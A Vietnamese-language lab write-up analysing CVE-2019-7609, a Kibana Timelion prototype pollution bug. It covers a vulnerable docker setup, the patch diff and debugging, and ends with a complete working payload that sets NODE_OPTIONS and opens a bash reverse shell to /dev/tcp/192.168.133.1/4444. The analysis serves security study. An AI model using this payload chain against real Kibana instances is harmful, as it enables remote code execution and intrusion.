

# References
[](https://nvd.nist.gov/vuln/detail/cve-2019-7609)[https://nvd.nist.gov/vuln/detail/cve-2019-7609](https://nvd.nist.gov/vuln/detail/cve-2019-7609)
[](https://github.com/mpgn/CVE-2019-7609)[https://github.com/mpgn/CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609)

# Enumerate
## Cài đặt phiên bản chứa lỗi và search Description
- ./start.sh
``` d
version: "3.0"
services:
  elasticsearch:
    container_name: es-container
    image: docker.elastic.co/elasticsearch/elasticsearch:6.6.0
    environment:
      - xpack.security.enabled=false
      - "discovery.type=single-node"
    networks:
      - es-net
    ports:
      - 9200:9200
  kibana:
    container_name: kb-container
    image: docker.elastic.co/kibana/kibana:6.6.0
    environment:
      - ELASTICSEARCH_HOSTS=http://es-container:9200
    networks:
      - es-net
    depends_on:
      - elasticsearch
    ports:
      - 5601:5601
networks:
  es-net:
    driver: bridge
```
- Description
	- Các phiên bản Kibana trước 5.6.15 và 6.6.1 chứa lỗ hổng thực thi mã tùy ý trong trình hiển thị Timelion. Kẻ tấn công có quyền truy cập vào ứng dụng Timelion có thể gửi yêu cầu cố gắng thực thi mã javascript. Điều này có thể dẫn đến việc kẻ tấn công thực thi các lệnh tùy ý với quyền của quy trình Kibana trên hệ thống máy chủ.

- Theo mô tả ở trên chúng ta sẽ tập trung vào chức năng Timelion
	- Tìm hiểu một chút về các chức năng của Timelion theo link: [](https://www.elastic.co/guide/en/kibana/current/timelion.html)[https://www.elastic.co/guide/en/kibana/current/timelion.html](https://www.elastic.co/guide/en/kibana/current/timelion.html)
	- Ở đây ta thấy chỉ có một entrypoint là khung để gọi các hàm biểu thức (Timelion expression function). Bắt đầu bằng .es hay .elasticsearch sau đó là các hàm để tương tác với dữ liệu được truy vấn từ elastic search.
- Một điều nữa là khi đọc mô tả mình tìm thấy cụm từ prototype pollution. Với lại cũng vừa được anh minh cho làm một dạng này. Vì vậy mình xoáy sâu vào các payload liên quan đến prototype polution..

## Diffcode và tìm trigger
-   Bước tiếp theo ta sẽ diff code để xem có gì đặc sắc ko. Chỉ tập trung vào các source trong path `/src/legacy/core_plugins/timelion/.`
-   Dùng winmerge ta thấy trong đó có một file đã được fix với nội dung như sau:
``` d
diff --git a/src/legacy/core_plugins/timelion/server/series_functions/props.js b/src/legacy/core_plugins/timelion/server/series_functions/props.js
index 81b74901d4db..80e9cafd6712 100644
--- a/src/legacy/core_plugins/timelion/server/series_functions/props.js
+++ b/src/legacy/core_plugins/timelion/server/series_functions/props.js
@@ -32,7 +32,7 @@ function unflatten(data) {
     let prop = '';
     let m;
     while (m = regex.exec(p)) {
-      cur = cur[prop] || (cur[prop] = (m[2] ? [] : {}));
+      cur = (cur.hasOwnProperty(prop) && cur[prop]) || (cur[prop] = (m[2] ? [] : {}));
       prop = m[2] || m[1];
     }
     cur[prop] = data[p];
```
- Vậy là có vẻ liên quan đến hàm props. Nhưng mình vẫn chưa hiểu code lắm. Nên sẽ thử debug
## Setup debug và debug
-   Thú thật vì là lần đầu nên mình mất khoảng 3,4 ngày để tìm cách set up từ port debug, inspect trên chrome đến việc gọi để set breakpoint cũng mất cả buổi chiều. Tuy nhiên mình đã làm được :)) và mình sẽ viết một bài riêng về phần debug js với chrome debugger.
    [Debug JS với Chrome Debugger](https://www.notion.so/Debug-JS-v-i-Chrome-Debugger-39432cb4c8554985b6e2bfdb3603163b)
-   Sau khi đã setup xong chúng ta sẽ đặt breakpoint vào trước đoạn code diff đã tìm được ở trên:
	
-   Ta sẽ thử 1 kịch bản thêm một props vào theo đúng chức năng của timelion
	- Set một prop label có giá trị là minh
	    
	- Lúc này các giá trị cụ thể của các biến:
		
	- Vào vòng while giá trị m sẽ được gán cho p. regex.exec(p) dùng để check giá trị p truyền vào có match với biến regex được được định nghĩa từ trước không.
	- Thêm 1 step nữa ta thấy m được khởi tạo thành một mảng.
			
	- Phần này liên quan nhiều đến regex. Mình check [regex101.com](http://regex101.com) thì thấy regex được chia thành hai capturing group là **`\\.?([^**.**\\[\\]` và `\\[(\\d+)\\]` và vì ‘label’** đều match với 2 group nên có kết quả 2 phần tử đầu trong mảng là label.
	-   Đoạn trong vòng while có thể hiểu là check phần tử nào trong mảng trống và gán giá trị cho thuộc tính prop.
	-   Sau khi thoát while, phần tử cur[prop] được gán giá trị của data[p] với val = ‘minh’

	⇒ Ta thấy mình hoàn toàn có thể điều khiển được prop của đối tượng cũng như giá trị của prop đó. Cùng với target ban đầu là protocol polution ta nghĩ ngay đến việc chèn **proto**

-   Thử với payload `.es(*).props(label.**proto**.y=minh)` sau khi debug lại ta thấy prop y đã nằm trong prototype
	
	
⇒ Như vậy là mình đã check được chỗ trigger prototype pollution rồi. Bước tiếp theo là tìm cách RCE

# Find RCE
- Đoạn này khá khó và ban đầu mình ko có idea gì. Mình lên GTFObin để xem có idea gì ko thì thấy hầu hết đều có liên quan đến việc phải require(child_process)
	
- Nên mình thử debug và nhận thấy mỗi khi click vào plugin nào kibana đều spawn new process:
- Mình bắt tay vào debug child_process thì thấy object options được khởi tạo và trong đó có props `y:’minh’` mà ban đầu mình có gán. Hơn thế prop .env nó còn được gán cho biến env.
	

- Vậy điều gì xảy ra nếu mình pollution một prop là __proto__.env.y : ‘minh’ ⇒ ta sẽ biến y trở thành một biến môi trường. Giờ tìm cách thực thi biến môi trường với node
## Thực thi payload trong môi trường node
- Ta có thể dùng NODE_OPTION cùng --require để thực hiện điều này:
	
- Check trên local:
	
- Oke vấn đề đặt ra nữa là làm sao để upload file js. Đến đây ta lại có giải pháp:
	- Lưu biến trong /proc/self/environ
		
	- Ta thấy rằng khi gán giá trị cho một biến đồng thời đọc các biến tiến trình ta thấy ngay lúc này biến payload đã được lưu.
	- Vậy ta có thể dùng NODE_OPTIONS để đọc file /proc/self/environ + payload được lưu vào /proc/self/environ ⇒ có thể thực thi được payload
		``` d
		NODE_OPTIONS='--require /proc/self/environ' payload='console.log("minh")//' node
		```
		
## Payload reverse shell
-   Chung quy lại payload của chúng ta cần hội tụ những yếu tố sau:
    -   Sử dụng NODE_OPTIONS --require để thực thi file /proc/self/environ
        `.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')`
    -   Payload reverse shell trong nodejs. Cái này mình kiếm trên GTFObins
        `require(”child_process”).exec(bash -i >& /dev/tcp/192.168.133.1/4444 0>&1”);process.exit()//`
    -   Nhét payload vào biến bất kỳ để lưu vào /proc/self/environ
        `.props(label.__proto__.env.payload='require(”child_process”).exec(bash -i >& /dev/tcp/192.168.133.1/4444 0>&1”);process.exit()// ')`
    ⇒ `.es(*).props(label.__proto__.env.payload='require(”child_process”).exec(bash -i >& /dev/tcp/192.168.133.1/4444 0>&1”);process.exit()// ').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')`
    
    -   Kết quả:
        - Thực hiện truyền payload vào input trong Timelion
			
	- Click vào canvas để hệ thống sinh tiến trình con
			
	- Reverse shell
			
			